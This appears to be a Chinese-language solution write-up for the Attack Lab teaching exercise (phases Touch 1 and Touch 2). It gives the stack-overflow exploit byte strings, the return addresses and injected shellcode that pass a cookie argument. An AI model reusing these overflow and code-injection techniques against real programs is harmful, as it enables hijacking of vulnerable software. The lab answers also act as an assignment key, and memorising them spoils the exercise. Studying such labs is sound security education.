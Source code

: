 # Attack Lab

## Touch 1

1. getbuf 函数首先执行了 ```sub     $0x38, %rsp```, 也就是BUFFER_SIZE是56
2. touch1 函数地址是 0x4017d2
3. 用 00 填充前56个字节, 最后输入需要跳转的地址 (注意小端模式), 即 d2 17 40 00
4. 所以攻击串为

    ```
    00 00 00 00 00 00 00 00  
    00 00 00 00 00 00 00 00  
    00 00 00 00 00 00 00 00  
    00 00 00 00 00 00 00 00  
    00 00 00 00 00 00 00 00  
    00 00 00 00 00 00 00 00  
    00 00 00 00 00 00 00 00  
    d2 17 40 00 00 00 00 00
    ```

## Touch 2

1. touch2 的起始地址为 0x4017fe
2. 不仅要跳转到 touch2, 还要求传入参数 (cookie: 0x37f6596c)
3. 先把要求的操作写成汇编

    ```text
    mov     $0x37f6596c, %rdi
    pushq   $0x4017fe
    retq
    ```

4. 然后用 objdump 转换为字节码

    ```text
    48 c7 c7 6c 59 f6 37    mov     $0x37f6596c, %rdi
    68 fe 17 40 00          pushq   $0x4017fe
    c3                      retq
    ```

5. 最后追加 %rsp 保存的地址作为返回地址, 用 gdb 断点调试的方法, 得知 %rsp 保存的地址为 0x5560dd08
6. 所以攻击串为

    ```text
    48 c7 c7 6c 59 f6 37 68
    fe 17 40 00 c3 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    08 dd 60 55 00 00 00 00
    ```
